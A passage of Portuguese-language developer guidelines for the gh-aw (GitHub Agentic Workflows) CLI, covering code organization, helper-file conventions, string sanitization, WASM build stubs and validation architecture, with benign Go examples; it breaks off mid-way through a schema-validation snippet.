# Instruções para Desenvolvedores

Use esta referência para especificações técnicas e diretrizes de desenvolvimento do gh-aw, abrangendo organização de código, validação, segurança e padrões de implementação.

## Índice

- [Diretrizes de Capitalização](#diretrizes-de-capitalização)
- [Organização de Código](#organização-de-código)
  - [Padrão de Variante de Build WASM](#padrão-de-variante-de-build-wasm)
- [Arquitetura de Validação](#arquitetura-de-validação)
- [Melhores Práticas de Segurança](#melhores-práticas-de-segurança)
- [Mensagens de Saída Segura](#mensagens-de-saída-segura)
- [Validação de Esquema](#validação-de-esquema)
- [Compatibilidade YAML](#compatibilidade-yaml)
- [Guardrail de Logs MCP](#guardrail-de-logs-mcp)
- [Gerenciamento de Release](#gerenciamento-de-release)
- [Análise de Log de Firewall](#análise-de-log-de-firewall)
- [Regras de Quebra da CLI](#regras-de-quebra-da-cli)
- [Resumos de Módulos Go](#resumos-de-módulos-go)


## Diretrizes de Capitalização

A CLI gh-aw segue a capitalização baseada no contexto para distinguir entre o nome do produto e referências genéricas ao fluxo de trabalho.

### Regras de Capitalização

| Contexto | Formato | Exemplo |
|---------|--------|---------|
| Nome do produto | **Capitalizado** | "GitHub Agentic Workflows CLI from GitHub Next" |
| Fluxos de trabalho genéricos | **Minúsculo** | "Enable agentic workflows" |
| Termos técnicos | **Capitalizado** | "Compile Markdown workflows to GitHub Actions YAML" |

Essa convenção distingue entre o nome do produto (GitHub Agentic Workflows) e o conceito (fluxos de trabalho agentic), seguindo padrões da indústria semelhantes a "GitHub Actions" vs. "actions".

### Implementação

As regras de capitalização são aplicadas através de testes automatizados em `cmd/gh-aw/capitalization_test.go` que são executados como parte da suíte de testes padrão.


## Organização de Código

### Princípios de Organização de Arquivos

A base de código segue padrões claros para organizar o código por funcionalidade, não por tipo. Esta seção fornece orientações sobre como manter a qualidade e a estrutura do código.

#### Prefira Muitos Arquivos Pequenos em Vez de Arquivos Grandes

Organize o código em arquivos focados de 100 a 500 linhas, em vez de criar grandes arquivos monolíticos.

**Exemplo:**
```
create_issue.go (160 linhas)
create_pull_request.go (238 linhas)
create_discussion.go (118 linhas)
```

#### Agrupe por Funcionalidade, Não por Tipo

**Abordagem recomendada:**
```
create_issue.go            # Lógica de criação de issue
create_issue_test.go       # Testes de criação de issue
add_comment.go             # Lógica de adição de comentário
add_comment_test.go        # Testes de comentário
```

**Evite:**
```
models.go                  # Todas as structs
logic.go                   # Toda a lógica de negócio
tests.go                   # Todos os testes
```

### Excelentes Padrões a Seguir

#### Padrão de Funções de Criação

Um arquivo por operação de criação de entidade do GitHub:
- `create_issue.go` - Lógica de criação de issue do GitHub
- `create_pull_request.go` - Lógica de criação de pull request
- `create_discussion.go` - Lógica de criação de discussão
- `create_code_scanning_alert.go` - Criação de alerta de verificação de código

Benefícios:
- Separação clara de responsabilidades
- Fácil localização de funcionalidade específica
- Evita que arquivos fiquem grandes demais
- Facilita o desenvolvimento paralelo

#### Padrão de Separação de Engine

Cada engine de IA tem seu próprio arquivo com helpers compartilhados em `engine_helpers.go`:
- `copilot_engine.go` - Engine GitHub Copilot
- `claude_engine.go` - Engine Claude
- `codex_engine.go` - Engine Codex
- `custom_engine.go` - Suporte a engine personalizada
- `engine_helpers.go` - Utilitários de engine compartilhados

#### Padrão de Organização de Testes

Os testes residem ao lado dos arquivos de implementação:
- Testes de funcionalidade: `feature.go` + `feature_test.go`
- Testes de integração: `feature_integration_test.go`
- Testes de cenário específico: `feature_scenario_test.go`

### Diretrizes de Tamanho de Arquivo

| Categoria | Linhas | Caso de Uso | Exemplo |
|----------|-------|----------|---------|
| Arquivos pequenos | 50-200 | Utilitários, funcionalidades simples | `args.go` (65 linhas) |
| Arquivos médios | 200-500 | Maioria das implementações de funcionalidade | `create_issue.go` (160 linhas) |
| Arquivos grandes | 500-800 | Funcionalidades complexas | `permissions.go` (905 linhas) |
| Arquivos muito grandes | 800+ | Apenas infraestrutura central | `compiler.go` (1596 linhas) |

### Árvore de Decisão: Criando Novos Arquivos



### Árvore de Decisão: Dividindo Arquivos



### Estudo de Caso: Refatorando Arquivos Grandes

A refatoração de `pkg/parser/frontmatter.go` demonstra a aplicação dos princípios de organização de arquivos a um grande arquivo monolítico.

#### Estado Inicial
- **Arquivo original**: 1.907 linhas (estrutura monolítica)
- **Problema**: Difícil de navegar, entender e manter
- **Objetivo**: Dividir em módulos focados e sustentáveis

#### Abordagem de Refatoração



#### Resultados

| Métrica | Antes | Depois | Alteração |
|--------|--------|-------|--------|
| Tamanho do arquivo principal | 1.907 LOC | 1.166 LOC | -741 LOC (-39%) |
| Número de arquivos | 1 | 5 | +4 arquivos |
| Tamanho médio do arquivo | 1.907 LOC | 233 LOC | -88% |
| Taxa de sucesso de testes | 100% | 100% | Sem alteração ✓ |
| Mudanças de quebra | N/A | 0 | Nenhuma ✓ |

#### Módulos Extraídos

1. **ansi_strip.go** (108 LOC)
   - Utilitários de remoção de sequência de escape ANSI
   - Independente, sem dependências
   - Funções: `StripANSI()`, `isFinalCSIChar()`, `isCSIParameterChar()`

2. **frontmatter_content.go** (284 LOC)
   - Análise básica e extração de frontmatter
   - Funções puras sem efeitos colaterais
   - Funções: `ExtractFrontmatterFromContent()`, `ExtractFrontmatterString()`, `ExtractMarkdownContent()`, etc.

3. **remote_fetch.go** (258 LOC)
   - Busca remota de conteúdo GitHub
   - Interações com a API do GitHub e cache
   - Funções: `downloadIncludeFromWorkflowSpec()`, `resolveRefToSHA()`, `downloadFileFromGitHub()`

4. **workflow_update.go** (129 LOC)
   - Atualizações de arquivo de fluxo de trabalho de alto nível
   - Manipulação de frontmatter e tratamento de expressão cron
   - Funções: `UpdateWorkflowFrontmatter()`, `EnsureToolsSection()`, `QuoteCronExpressions()`

#### Princípios Chave Aplicados

- **Responsabilidade Única**: Cada módulo lida com um aspecto do processamento de frontmatter
- **Fronteiras Claras**: Interfaces bem definidas entre os módulos
- **Refatoração Progressiva**: Extraia utilitários independentes primeiro, depois módulos de nível superior
- **Sem Mudanças de Quebra**: Mantenha a compatibilidade da API pública durante todo o processo
- **Segurança Orientada a Testes**: Execute testes após cada extração

#### Trabalho Restante

Três módulos complexos permanecem no arquivo original (exigindo trabalho futuro):

- **tool_sections.go** (~420 LOC): Extração e mesclagem de configuração de ferramenta
- **include_expander.go** (~430 LOC): Resolução recursiva de include com detecção de ciclo
- **frontmatter_imports.go** (~360 LOC): Travessia e processamento de importação BFS

Estes permanecem devido à alta interdependência, lógica com estado e algoritmos recursivos complexos.

### Anti-Padrões a Evitar

#### God Files (Arquivos Deus)

Arquivo único que faz tudo - divida por responsabilidade. A refatoração de frontmatter.go demonstra como um "God file" de 1.907 linhas pode ser sistematicamente decomposto.

#### Nomes Vagos
Evite nomes de arquivo não descritivos como `utils.go`, `helpers.go`, `misc.go`, `common.go`.

Use nomes específicos como `ansi_strip.go`, `remote_fetch.go` ou `workflow_update.go` que indiquem claramente seu propósito.

#### Preocupações Misturadas

Mantenha arquivos focados em um domínio. Não misture funcionalidades não relacionadas em um arquivo.

#### Poluição de Testes
Divida testes por cenário em vez de ter um arquivo de teste massivo.

#### Abstração Prematura
Espere até ter 2 a 3 casos de uso antes de extrair padrões comuns.

### Convenções de Arquivos Helper (Auxiliares)

Arquivos helper contêm funções utilitárias compartilhadas usadas por múltiplos módulos. Siga estas diretrizes ao criar ou modificar arquivos helper.

#### Quando Criar Arquivos Helper

Crie um arquivo helper quando você tiver:
1. **Utilitários compartilhados** usados por 3+ arquivos no mesmo domínio
2. **Foco claro no domínio** (por exemplo, análise de configuração, renderização MCP, wrapping de CLI)
3. **Funcionalidade estável** que não mudará com frequência

**Exemplos de Bons Arquivos Helper:**
- `github_cli.go` - Funções de wrapping da CLI do GitHub (ExecGH, ExecGHWithOutput)
- `config_helpers.go` - Análise de configuração de saída segura (parseLabelsFromConfig, parseTitlePrefixFromConfig)
- `map_helpers.go` - Utilitários genéricos de mapa/tipo (parseIntValue, filterMapKeys)
- `mcp_renderer.go` - Renderização de configuração MCP (RenderGitHubMCPDockerConfig, RenderJSONMCPConfig)

#### Convenções de Nomenclatura

Nomes de arquivo helper devem ser **específicos e descritivos**, não genéricos:

**Bons Nomes:**
- `github_cli.go` - Indica helpers da CLI do GitHub
- `mcp_renderer.go` - Indica helpers de renderização MCP
- `config_helpers.go` - Indica helpers de análise de configuração

**Evite:**
- `helpers.go` - Genérico demais
- `utils.go` - Vago demais
- `misc.go` - Indica organização pobre
- `common.go` - Não especifica domínio

#### O Que Pertence a Arquivos Helper

**Inclua:**
- Funções utilitárias pequenas (< 50 linhas) usadas por múltiplos arquivos
- Funções de análise/validação específicas de domínio
- Funções wrapper que simplificam operações comuns
- Utilitários de conversão de tipo

**Exclua:**
- Lógica de negócio complexa (pertence a arquivos específicos do domínio)
- Funções usadas por apenas 1 a 2 chamadores (co-localize com os chamadores)
- Funções grandes (> 100 linhas) - considere arquivos dedicados
- Múltiplos domínios não relacionados em um arquivo

#### Organização de Arquivos Helper

**Arquivos Helper Atuais em pkg/workflow:**

| Arquivo | Propósito | Funções | Uso |
|------|---------|-----------|-------|
| `github_cli.go` | Wrapper CLI do GitHub | 2 funções | Usado por comandos da CLI e resolução de fluxo de trabalho |
| `config_helpers.go` | Análise de config de saída segura | 5 funções | Usado por processadores de saída segura |
| `map_helpers.go` | Utilitários genéricos de mapa/tipo | 2 funções | Usado em toda a compilação de fluxo de trabalho |
| `prompt_step_helper.go` | Geração de passo de prompt | 1 função | Usado por geradores de prompt |
| `mcp_renderer.go` | Renderização de config MCP | Múltiplas funções de renderização | Usado por todas as engines de IA |
| `engine_helpers.go` | Utilitários de engine compartilhados | Agente, helpers de instalação npm | Usado por engines Copilot, Claude, Codex |

#### Quando NÃO Criar Arquivos Helper

Evite criar arquivos helper quando:
1. **Chamador único** - Co-localize com o chamador
2. **Acoplamento forte** - A função é fortemente acoplada a um módulo
3. **Mudanças frequentes** - Arquivos helper devem ser estáveis
4. **Preocupações misturadas** - Múltiplos utilitários não relacionados (divida em arquivos focados)

**Exemplo de preferência por co-localização:**
```go
// Em vez de: helpers.go contendo formatStepName() usado apenas por compiler.go
// Faça: Coloque formatStepName() diretamente em compiler.go
```

#### Diretrizes de Refatoração

Ao refatorar arquivos helper:
1. **Agrupe por domínio** - Renderização MCP → mcp_renderer.go, não engine_helpers.go
2. **Mantenha as funções pequenas** - Helpers grandes (> 100 linhas) podem precisar de arquivos dedicados
3. **Documente o uso** - Adicione comentários explicando quando usar cada helper
4. **Verifique locais de chamada** - Garanta 3+ chamadores antes de manter no arquivo helper

#### Exemplo: Reorganização da Função MCP

As funções de renderização MCP foram movidas de `engine_helpers.go` para `mcp_renderer.go` porque:
- **Foco no domínio**: Todas as funções se relacionam à renderização de configuração MCP
- **Múltiplos chamadores**: Usado por engines Claude, Copilot, Codex e Custom
- **Coeso**: Funções trabalham juntas para renderizar configs MCP
- **Estável**: Padrões de renderização não mudam com frequência

**Antes:**
```
engine_helpers.go (478 linhas)
  - Helpers de agente
  - Helpers de instalação npm
  - Funções de renderização MCP ← Deveriam estar em mcp_renderer.go
```

**Depois:**
```
engine_helpers.go (213 linhas)
  - Helpers de agente
  - Helpers de instalação npm
  
mcp_renderer.go (523 linhas)
  - Funções de renderização MCP
  - Tipos de configuração MCP
```

### Sanitização de String vs. Normalização

A base de código usa dois padrões distintos para processamento de string com propósitos diferentes.

#### Padrão de Sanitização: Validade de Caractere

**Propósito**: Remover ou substituir caracteres inválidos para criar identificadores, nomes de arquivo ou nomes de artefato válidos.

**Quando usar**: Quando você precisa garantir que uma string contém apenas caracteres válidos para um contexto específico (identificadores, nomes de artefatos YAML, caminhos de sistema de arquivos).

**O que faz**:
- Remove caracteres especiais inválidos no contexto de destino
- Substitui separadores (dois pontos, barras, espaços) por hifens
- Converte para minúsculas para consistência
- Pode preservar certos caracteres (pontos, sublinhados) com base na configuração

#### Padrão de Normalização: Padronização de Formato

**Propósito**: Padronizar o formato removendo extensões, convertendo entre convenções ou aplicando regras de formatação consistentes.

**Quando usar**: Quando você precisa converter entre diferentes representações da mesma entidade lógica (por exemplo, extensões de arquivo, convenções de nomenclatura).

**O que faz**:
- Remove extensões de arquivo (.md, .lock.yml)
- Converte entre convenções de nomenclatura (hifens para sublinhados)
- Padroniza identificadores para uma forma canônica
- NÃO valida a validade do caractere (assume que a entrada já é válida)

#### Referência de Função

**Funções de Sanitização**:
- `SanitizeName(name string, opts *SanitizeOptions) string` - Sanitização configurável com preservação de caractere personalizado
- `SanitizeWorkflowName(name string) string` - Sanitiza nomes de fluxo de trabalho para nomes de artefato e caminhos de arquivo
- `SanitizeIdentifier(name string) string` - Cria identificadores limpos para strings de user agent

**Funções de Normalização**:
- `normalizeWorkflowName(name string) string` - Remove extensões de arquivo para obter identificador de fluxo de trabalho base
- `normalizeSafeOutputIdentifier(identifier string) string` - Converte hifens para sublinhados para identificadores de saída segura

#### Árvore de Decisão



#### Melhores Práticas

1. **Escolha a ferramenta certa**: Use sanitize para validade de caractere, normalize para padronização de formato.
2. **Não processe duas vezes**: Se a normalização produz um identificador válido, não sanitize novamente.
3. **Documente a intenção**: Ao usar essas funções, adicione comentários explicando qual padrão você está usando e porquê.
4. **Valide suposições**: Se você assume que a entrada já é válida, documente essa suposição.
5. **Considere padrões**: Use `SanitizeIdentifier` quando precisar de um valor padrão fallback para resultados vazios.

#### Anti-Padrões

**Não sanitize strings já normalizadas**:
```go
// RUIM: Sanitizando um nome de fluxo de trabalho normalizado
normalized := normalizeWorkflowName("weekly-research.md")
sanitized := SanitizeWorkflowName(normalized) // Desnecessário!
```

**Não normalize para validade de caractere**:
```go
// RUIM: Usando normalize para caracteres inválidos
userInput := "My Workflow: Test/Build"
normalized := normalizeWorkflowName(userInput) // Ferramenta errada!
// normalized = "My Workflow: Test/Build" (inalterado - caracteres inválidos permanecem)
```

### Padrão de Variante de Build WASM

Sete arquivos em `pkg/workflow/` fornecem implementações stub de recursos dependentes do SO para o alvo de compilação WASM (`GOOS=js GOARCH=wasm`) usado pelo web playground do gh-aw. Cada arquivo é nomeado com o sufixo `_wasm.go` (restrição de build implícita do Go para `GOARCH=wasm`) **e** carrega uma tag explícita `//go:build js || wasm` na linha 1:

```
pkg/workflow/dependabot_wasm.go
pkg/workflow/docker_validation_wasm.go
pkg/workflow/git_helpers_wasm.go
pkg/workflow/github_cli_wasm.go
pkg/workflow/npm_validation_wasm.go
pkg/workflow/pip_validation_wasm.go
pkg/workflow/repository_features_validation_wasm.go
```

Cada arquivo `_wasm.go` espelha as assinaturas de função de nível de pacote/públicas de seu homólogo não WASM, mas substitui chamadas de SO (exec, sistema de arquivos, rede) por operações no-op ou retornos `fmt.Errorf("... não disponível em Wasm")`.

#### Quando um Stub `_wasm.go` é Necessário

Adicione um stub `_wasm.go` sempre que adicionar uma **nova função** a um arquivo existente guardado por `_wasm.go` (ou criar um novo arquivo que chama ferramentas de nível de SO no momento da compilação/validação). Especificamente:

- Funções que chamam `os/exec` ou executam binários externos (gh, git, docker, npm, pip, uv, etc.)
- Funções que leem do sistema de arquivos real durante a compilação
- Funções que executam I/O de rede no momento da validação

Funções que **não** precisam de um stub WASM:
- Transformações de dados puras (manipulação de string, marshaling de YAML)
- Funções que operam apenas em estruturas de dados na memória
- Funções guardadas por `WithSkipValidation(true)` (já excluídas em tempo de execução, mas ainda precisam compilar)

#### Como Adicionar um Stub

1. Identifique o arquivo não WASM (por exemplo, `github_cli.go`).
2. Abra (ou crie) o arquivo `_wasm.go` correspondente (por exemplo, `github_cli_wasm.go`).
3. Garanta que a tag de build na linha 1 seja `//go:build js || wasm`.
4. Adicione um stub com a mesma assinatura que retorna um valor zero e/ou um erro:
   ```go
   func MyNewFunction(args ...string) ([]byte, error) {
       return nil, fmt.Errorf("MyNewFunction não disponível em Wasm")
   }
   ```
5. Verifique se o build WASM ainda compila:
   ```bash
   GOOS=js GOARCH=wasm go build ./pkg/workflow/
   ```

#### Lacuna Conhecida

`github_cli_wasm.go` atualmente omite stubs para `enrichGHError`, `runGHWithSpinnerContext`, `RunGHCombinedContext`, `RunGHWithHost` e `SetGHHostEnv`. Estes são helpers não exportados ou wrappers finos chamados apenas pela família exportada `RunGH*`, que já possuem stub; o compilador não os referencia diretamente. Isso é intencional — evite adicionar stubs para helpers não exportados, a menos que o build WASM quebre.


## Arquitetura de Validação

O sistema de validação garante que as configurações do fluxo de trabalho estejam corretas, seguras e compatíveis com o GitHub Actions antes da compilação.

### Visão Geral da Arquitetura



### Validação Centralizada

**Localização:** `pkg/workflow/validation.go` (782 linhas)

**Propósito:** Validação de propósito geral que se aplica a todo o sistema de fluxo de trabalho

**Principais Funções:**
- `validateExpressionSizes()` - Garante limites de tamanho de expressão do GitHub Actions
- `validateContainerImages()` - Verifica se as imagens Docker existem e são acessíveis
- `validateRuntimePackages()` - Valida dependências de pacotes em tempo de execução
- `validateGitHubActionsSchema()` - Valida contra o esquema YAML do GitHub Actions
- `validateNoDuplicateCacheIDs()` - Garante identificadores de cache únicos
- `validateSecretReferences()` - Valida a sintaxe de referência de segredo
- `validateRepositoryFeatures()` - Verifica capacidades do repositório
- `validateHTTPTransportSupport()` - Valida a configuração de transporte HTTP
- `validateWorkflowRunBranches()` - Valida a configuração de branch de execução de fluxo de trabalho

**Quando adicionar validação aqui:**
- Preocupações transversais que abrangem múltiplos domínios
- Verificações de integridade de fluxo de trabalho central
- Validação de compatibilidade com GitHub Actions
- Validação geral de esquema e configuração
- Detecção de recursos em nível de repositório

### Validação Específica de Domínio

A validação específica de domínio é organizada em arquivos separados:

#### Validação de Modo Estrito

**Arquivos:** `pkg/workflow/strict_mode.go`, `pkg/workflow/validation_strict_mode.go`

Impõe restrições de segurança e segurança no modo estrito:
- `validateStrictPermissions()` - Recusa permissões de escrita
- `validateStrictNetwork()` - Requer configuração explícita de rede
- `validateStrictMCPNetwork()` - Requer config de rede em servidores MCP personalizados
- `validateStrictBashTools()` - Recusa ferramentas bash com wildcards

#### Validação de Pacote Python

**Arquivo:** `pkg/workflow/pip.go`

Valida a disponibilidade do pacote Python no PyPI:
- `validatePipPackages()` - Valida pacotes pip
- `validateUvPackages()` - Valida pacotes uv

#### Validação de Pacote NPM

**Arquivo:** `pkg/workflow/npm.go`

Valida a disponibilidade do pacote NPX no registro npm.

#### Segurança de Expressão

**Arquivo:** `pkg/workflow/expression_safety.go`

Valida a segurança da expressão do GitHub Actions com validação baseada em lista de permissões.

### Árvore de Decisão de Validação



### Padrões de Validação

#### Validação de Lista de Permissões (Allowlist)

Usado para validação sensível à segurança com conjunto limitado de opções válidas:

```go
func validateExpressionSafety(content string) error {
    matches := expressionRegex.FindAllStringSubmatch(content, -1)
    var unauthorizedExpressions []string

    for _, match := range matches {
        expression := strings.TrimSpace(match[1])
        if !isAllowed(expression) {
            unauthorizedExpressions = append(unauthorizedExpressions, expression)
        }
    }

    if len(unauthorizedExpressions) > 0 {
        return fmt.Errorf("expressões não autorizadas: %v", unauthorizedExpressions)
    }
    return nil
}
```

#### Validação de Recurso Externo

Usado para validar dependências externas:

```go
func validateDockerImage(image string, verbose bool) error {
    cmd := exec.Command("docker", "inspect", image)
    output, err := cmd.CombinedOutput()

    if err != nil {
        pullCmd := exec.Command("docker", "pull", image)
        if pullErr := pullCmd.Run(); pullErr != nil {
            return fmt.Errorf("imagem docker não encontrada: %s", image)
        }
    }
    return nil
}
```

#### Validação de Esquema

Usado para validação de arquivo de configuração:

```go
func (c *Compiler) validateGitHubActionsSchema(yamlContent string) error {
    schema := loadGitHubActionsSchema()

    var data interface{}
    if err := yaml.Unmarshal([]byte(yamlContent), &data); err != nil {
        return err
    }

